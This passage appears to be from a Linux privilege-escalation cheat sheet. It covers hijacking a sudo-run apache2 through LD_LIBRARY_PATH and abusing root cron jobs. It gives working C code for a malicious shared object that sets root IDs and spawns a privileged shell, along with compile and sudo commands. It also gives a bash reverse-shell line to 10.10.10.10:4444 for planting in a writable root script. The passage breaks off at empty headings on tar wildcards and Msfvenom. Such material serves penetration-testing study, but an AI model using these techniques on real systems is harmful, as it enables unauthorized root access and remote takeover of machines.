 ```
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) Shared object code

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

```

Compile it

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Next we run apache2 as sudo while setting the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object)

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

#### Cron Jobs

View the contents of the system-wide crontab

```
cat /etc/crontab
```

Based on the content of the crontab, we look for jobs under the root account or another more privileged account that the shell you currently have. See if you can modify the script/application used to launch the cronjob and replace the content with bash shell.

**Writable bash script under root**

In case you find a writable .sh script, you can replace its contents with the below

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Start a listener on your machine and you should receive a root shell

**Wild cards Command in Cron jobs \[tar as an example]**

**Reverse shell with Msfvenom**
